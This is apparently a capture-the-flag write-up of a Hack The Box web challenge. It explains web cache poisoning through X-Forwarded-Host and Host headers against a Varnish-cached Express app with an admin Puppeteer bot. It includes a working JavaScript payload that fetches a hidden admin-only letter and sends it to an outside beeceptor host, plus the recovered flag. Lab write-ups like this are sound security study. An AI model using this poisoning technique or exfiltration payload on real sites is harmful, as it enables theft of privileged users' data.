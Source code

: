 we have a site that you leave letters , and our flag is in on of this letters (letter 3 specfic) but it need an admin auth to see it
![Screenshot_84](https://github.com/kiro6/writeups/assets/57776872/372cfff9-ba16-4a15-9777-20847650d793)

project structre 
```
.
├── build-docker.sh
├── challenge
│   ├── index.js
│   ├── package.json
│   ├── routes
│   │   └── routes.js
│   ├── static
│   │   ├── background.png
│   │   ├── favicon.ico
│   │   ├── main.css
│   │   ├── main.js
│   │   ├── queen.svg
│   │   ├── sign-post.png
│   │   └── viewletter.js
│   ├── utils
│   │   ├── authorisation.js
│   │   ├── bot.js
│   │   └── database.js
│   └── views
│       ├── base.html
│       ├── index.html
│       ├── letter.html
│       └── viewletters.html
├── config
│   ├── cache.vcl
│   └── supervisord.conf
└── Dockerfile
```

i will mention the most important parts to solve the challenge 

## cache.vcl
in Varnish Configuration , the cache based on url and host header
```vcl
sub vcl_hash {
    hash_data(req.url);

    if (req.http.host) {
        hash_data(req.http.host);
    } else {
        hash_data(server.ip);
    }

    return (lookup);
}
```

## routs.js
in `/` and `/letters` cdn can be controlled by the user  
```js
router.get("/", (req, res) => {
    return res.render("index.html", {
        cdn: `${req.protocol}://${req.hostname}:${req.headers["x-forwarded-port"] ?? 80}/static/`,
    });
});

router.get("/letters", (req, res) => {
    return res.render("viewletters.html", {
        cdn: `${req.protocol}://${req.hostname}:${req.headers["x-forwarded-port"] ?? 80}/static/`,
    });
});
```

- when the submit func `visit` is called from `bot.js`
- `/submit` endpoint take json object contain message attribute
```js
router.post("/submit", async (req, res) => {
    const { message } = req.body;

    if (message) {
        return db.insertMessage(message)
            .then(async inserted => {
                try {
                    botVisiting = true;
                    await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
                    botVisiting = false;
                }
                catch (e) {
                    console.log(e);
                    botVisiting = false;
                }
                res.status(201).send(response(inserted.lastID));
            })
            .catch(() => {
                res.status(500).send(response('Something went wrong!'));
            });
    }
    return res.status(401).send(response('Missing required parameters!'));
});
```



message endpint used to get other letters
```js
router.get("/message/:id", async (req, res) => {
    try {
        const { id } = req.params;
        const { count } = await db.getMessageCount();
        const message = await db.getMessage(id);

        if (!message) return res.status(404).send({
            error: "Can't find this note!",
            count: count
        });

        if (message.hidden && !isAdmin(req))
            return res.status(401).send({
                error: "Sorry, this letter has been hidden by the easter bunny's helpers!",
                count: count
            });

        if (message.hidden) res.set("Cache-Control", "private, max-age=0, s-maxage=0 ,no-cache, no-store");

        return res.status(200).send({
            message: message.message,
            count: count,
        });
    } catch (error) {
        console.error(error);
        res.status(500).send({
            error: "Something went wrong!",
        });
    }
});
```
## bot.js

on every submit to a letter a bot is visiting the last submttied letter
```js
const puppeteer = require('puppeteer');

const browser_options = {
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
        '--js-flags=--noexpose_wasm,--jitless'
    ],
};

const visit = async(url, authSecret) => {
    try {
        const browser = await puppeteer.launch(browser_options);
        let context = await browser.createIncognitoBrowserContext();
        let page = await context.newPage();

        await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });

        await page.goto(url, {
            waitUntil: 'networkidle2',
            timeout: 5000,
        });
        await page.waitForTimeout(3000);
        await browser.close();
    } catch (e) {
        console.log(e);
    }
};

module.exports = visit;
```

# Steps 
1) i found out that `X-Forwarded-Host` i accepted and reflected on `/` and `/letters`
2) we can cache posion the server , send him `X-Forwarded-Host: My_Server` 
3) set `Host: 127.0.0.1` to make the cache server map it to the server ip , so when the bot in `bot.js` visit it it will be served the poioned cache
4) use the url with id paramter potiong to the next letter will be added while poioning the cache , here used `/letters?id=15` because i will add it later
![Screenshot_80](https://github.com/kiro6/writeups/assets/57776872/eb5e22d1-5b40-407a-8649-78bfe904a7e7)

5) now every request for a url in the frontend use absloute path like `/viewletter.js` and `main.js` will be requsted as `http://My_Server/viewletter.js`

6) submit a new letter
 ![Screenshot_81](https://github.com/kiro6/writeups/assets/57776872/d39b231e-641d-491e-a1f9-2be6467135db)

7) now the bot visted `/letters?id=15` which we posioned later
8) the bot will request `/viewletter.js` which we serve in our server as
```js
fetch("http://127.0.0.1:80/message/3").then((r) => {
    return r.text();
}).then((data)=>{
fetch("https://htbsolver.free.beeceptor.com/"+btoa(data) )
})
```
9) the script executed in the bot and send use the result
![Screenshot_85](https://github.com/kiro6/writeups/assets/57776872/1554bc0c-30a0-461e-bd36-922a4bacfc60)
10) decode the base64 to get the flag
```
{"message":"Dear Easter Bunny, Santa's better than you! HTB{7h3_3as7er_bunny_h45_b33n_p0150n3d!}","count":15}
```
